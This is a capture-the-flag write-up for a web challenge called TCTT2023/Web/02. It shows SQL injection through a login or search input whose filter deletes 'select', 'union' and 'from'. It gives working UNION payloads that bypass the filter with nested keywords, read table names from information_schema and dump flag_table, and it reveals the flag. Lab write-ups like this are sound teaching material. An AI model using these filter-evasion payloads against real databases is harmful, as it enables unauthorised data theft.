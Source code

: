 # Write-ups for TCTT2023/Web/02

## Flag pattern

`CTT23{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}`

## Challenge Files

_No file provided_

## Solution

1. First, let observe the website.

   - Input: `select`

   ![web_result_01](./write-ups/01.png)

   - Input: `selectc`

   ![web_result_02](./write-ups/02.png)

   - Input: `selectv`

   ![web_result_03](./write-ups/03.png)

   - Input: `selectz`

   ![web_result_04](./write-ups/04.png)

From our result, we can clude that, it only replace `'select'`, `'union'`, `'from'` with `''`

2. We want to know all tables names in the database. So, we can use `information_schema.tables` to get all tables names.

The original payload is

```
' UNION SELECT 1,table_name FROM information_schema.columns #
```

To prevent it from being replaced, we can use `SEselectLECT` instead of `SELECT`.

```
' UNunionION SEselectLECT 1,table_name FRfromOM information_schema.columns #
```

![Table_name_01](./write-ups/05.png)

![Table_name_02](./write-ups/06.png)

We can see the table named `flag_table`. Let's get data in this table.

3. Crafting new payload to get all data in table.

```
' UNION SELECT * FROM flag_table #
```

to

```
' UNunionION SEselectLECT * FRfromOM flag_table #
```

![FLAG](./write-ups/07.png)

4. So the flag is `CTT23{SQLi_R3p7ac3_F7@g_w1th_NULL}`
